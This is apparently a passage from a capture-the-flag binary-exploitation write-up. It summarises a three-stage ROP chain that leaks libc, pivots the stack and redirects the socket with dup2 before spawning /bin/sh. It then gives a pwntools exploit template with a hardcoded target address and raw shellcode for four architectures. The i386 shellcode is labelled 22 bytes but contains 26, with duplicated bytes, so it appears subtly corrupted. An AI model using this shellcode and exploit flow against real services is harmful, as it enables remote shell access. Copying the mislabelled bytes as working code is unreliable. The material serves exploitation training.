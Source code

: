 So to sum it up:
1. Use objdump to get the port number, buffer location and reading size
2. Use ROPgadget to find some useful gadgets (for setting parameters & stack migration)
3. Overwrite the return address, notice that the socket fd should not be modified
4. First ROP chain: read the 2nd ROP chain to buffer1 and change the stack 
5. Second ROP chain: leak libc's base address, read the 3rd ROP chain to buffer2 and change the stack
6. Third ROP chain: do `dup2(6, 0)`, `dup2(6, 1)` and `system("/bin/sh")`
 
For finding the libc version, here's an useful tool: [libc database](https://github.com/niklasb/libc-database)

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.20.10.244"
PORT = 8888
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
#context.arch = 'i386'
#context.arch = 'arm'
#context.arch = 'aarch64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
```